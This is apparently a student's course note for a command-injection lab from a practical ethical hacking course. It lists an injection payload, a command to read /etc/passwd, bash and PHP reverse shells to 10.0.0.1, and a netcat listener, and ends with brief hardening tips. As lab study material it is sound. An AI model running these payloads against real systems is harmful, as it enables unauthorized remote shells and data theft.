

# 🛡️ Introduction - Lab1

> **Course:** [Practical Ethical Hacking](../../README.md)  
> **Module:** [Common Web Vulnerabilities](./README.md)  
> **Navigation Path:** `Practical Ethical Hacking > Common Web Vulnerabilities > Introduction - Lab1`

---

## 🎯 Executive Summary & Technical Objectives
This document details the practical methodology, tooling, exploitation chain, and defensive remediation for **Introduction - Lab1** as conducted in the TCM Security lab environment.

---

## 🔬 Hands-On Walkthrough & Technical Evidence

It is very serious vulnerability because if we find it we can compromise the entire application or host

How this works?
The application takes input from user and puts it in a function and executes it as a code 



*Figure: Lab Execution Screenshot / Proof of Exploit*


This a wiki of notes of the thin guy of tcm sec (alex olsen ig)


*Figure: Lab Execution Screenshot / Proof of Exploit*

[https://appsecexplained.gitbook.io/appsecexplained](https://appsecexplained.gitbook.io/appsecexplained)


```javascript
; whoami; asd
```

‘ ; ‘ this is to end
asd because we want the grep command to fail


```shell
ls -lah
```
- ls: The command for listing files and directories.- l: Displays the list in a long format, showing detailed information about each file and directory.- a: Includes hidden files and directories in the list.- h: Displays file sizes in a human-readable format (e.g., KB, MB, GB).

```shell
cat etc/passwd
```
Can use this as proof of concept as well

Payload all the things - A very good site to get information of paylaods
[https://swisskyrepo.github.io/PayloadsAllTheThings/](https://swisskyrepo.github.io/PayloadsAllTheThings/)


```shell
which bash
```
To find path of bash

Reverse shell bash tcp

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

The payload we put with ful path

```bash
/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
(This payload did not work on that lab)

Open a net cat server

```bash
nc -nlvp 4444
```
If the random ports like 4444 or 1234 or smthng like that fails then use common ports like 80 443

Since the site is using php, we can try using php reverse shell

```bash
which php
```
To check path of php

Reverse shell php payload

```bash
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
The page is hung while loading it is a good sign, usually you will get a shell on net cat if that happens


---

## 🛡️ Defensive Hardening & Detection Signatures
- **Monitoring & Auditing:** Enable granular auditing for process creation (Windows Event ID 4688 / Sysmon Event 1) and network connections (Sysmon Event 3).
- **Least Privilege:** Enforce strict principle of least privilege across user accounts and service configurations.
- **Continuous Validation:** Conduct routine vulnerability scanning and automated configuration reviews to identify drift.

---
[⬅ Back to Common Web Vulnerabilities](./README.md) • [🏠 Master Course Index](../README.md)
